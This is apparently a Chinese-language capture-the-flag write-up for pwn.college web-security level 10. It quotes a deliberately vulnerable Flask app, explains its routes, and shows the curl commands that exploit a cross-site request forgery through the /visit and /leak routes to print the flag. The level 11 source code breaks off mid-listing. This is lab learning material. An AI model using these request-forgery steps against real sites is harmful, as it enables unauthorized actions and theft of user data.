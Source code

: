 ```
        with run_browser() as browser:
            browser.get(f"http://{challenge_host}/login")

            user_form = {
                "username": "flag",
                "password": flag,
            }
            for name, value in user_form.items():
                field = browser.find_element(By.NAME, name)
                field.send_keys(value)

            submit_field = browser.find_element(By.ID, "submit")
            submit_field.submit()
            WebDriverWait(browser, 10).until(EC.staleness_of(submit_field))

            browser.get(url)
            time.sleep(1)

        return "Visited\n"

    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(echo)

    return "Not Found\n", 404
```
五个路由：

- `/login` 路由：它接受 POST 请求，从表单中获取 username 和 password 参数的值，并使用 SQLite 数据库查询验证用户身份。如果验证成功，它将在会话中存储用户 ID，并重定向到登录页面。如果请求方法是 GET，它将返回一个包含 username 和 password 输入框的 HTML 表单。
- `/leak` 路由：它检查当前用户是否已经登录，并将该用户的 leak 标志设置为 TRUE。这个标志可以用来控制是否泄露用户密码。
- `/info` 路由：它从请求参数中获取 user 参数的值，并使用 SQLite 数据库查询该用户的信息。如果该用户存在，它将返回该用户的用户名和密码（如果 leak 标志为 TRUE）。
- `/visit` 路由：它从请求参数中获取 url 参数的值，并使用 Selenium WebDriver 打开该 URL。在访问该 URL 之前，它会先登录为管理员用户，以便访问敏感数据。如果 url 参数的主机名与 challenge_host 变量的值相同，它将访问该 URL 并返回一个成功消息。
- `/echo` 路由：它从请求参数中获取 echo 参数的值，并返回一个 HTML 响应，其中包含 echo 参数的值。
```
hacker@web-security-level-10:~$ curl http://challenge.localhost/visit?url=http://challenge.localhost/leak
Visited
hacker@web-security-level-10:~$
```
这时候我们就已经被设置为True了，然后再访问即可
```
hacker@web-security-level-10:~$ curl http://challenge.localhost/info?user=1
flag pwn.college{4QUT7p7kVB1-GCQIE-psBqLVG8L.dZTOzMDL2QjMyMzW}
hacker@web-security-level-10:~$
```
## level11 Exploit a cross site request forgery vulnerability
看一下源代码
```
def level11():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password, ? as leak'),
               (flag, False))

    if request.path == "/login":
        if request.method == "POST":
            username = request.form.get("username")
            password = request.form.get("password")
            assert username, "Missing `username` form"
            assert password, "Missing `password` form"
```